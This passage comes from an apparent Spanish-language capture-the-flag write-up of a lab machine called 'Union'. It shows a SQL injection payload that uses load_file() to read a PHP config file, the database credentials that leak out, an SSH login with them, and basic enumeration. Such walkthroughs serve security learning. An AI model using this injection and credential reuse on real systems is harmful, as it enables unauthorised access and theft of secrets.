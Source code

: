 Procedemos a listar informacion del archivo `config.php`

```bash
player=admin' union select load_file("/var/www/html/config.php")-- -
```
Respuesta de la inyeccion SQL `load_file()`

```bash
Sorry, <?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
 you are not eligible due to already qualifying.
```

Ya tenemos credenciales para conectarnos por SSH como `uhc` a la maquina.

Procedemos a conectarnos por SSH como el usuario `uhc`:
```bash
$ ssh uhc@10.10.11.128

The authenticity of host '10.10.11.128 (10.10.11.128)' can't be established.
ED25519 key fingerprint is SHA256:hE6H4DrsHebfs+gclhz9SL77tMpy8aKR3vp8Y0NRDvY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.128' (ED25519) to the list of known hosts.
uhc@10.10.11.128's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Nov  8 21:19:42 2021 from 10.10.14.8
uhc@union:~$ 
```

Nos metemos por SSH a la maquina Victima. Procedemos a Enumerar el Sistema como Siempre:

```bash
uhc@union:~$ id
uid=1001(uhc) gid=1001(uhc) groups=1001(uhc)
uhc@union:~$ whoami
uhc
uhc@union:~$ uname -a
Linux union 5.4.0-77-generic #86-Ubuntu SMP Thu Jun 17 02:35:03 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
uhc@union:~$ pwd
/home/uhc
uhc@union:~$ ls -la
total 20
drwxr-xr-x 1 uhc  uhc   108 Nov  8 20:51 .
drwxr-xr-x 1 root root   12 Nov  8 12:37 ..
lrwxrwxrwx 1 root root    9 Nov  8 12:53 .bash_history -> /dev/null
-rw-r--r-- 1 uhc  uhc   220 Nov  8 12:37 .bash_logout
-rw-r--r-- 1 uhc  uhc  3771 Nov  8 12:37 .bashrc
drwx------ 1 uhc  uhc    40 Nov  8 20:51 .cache
```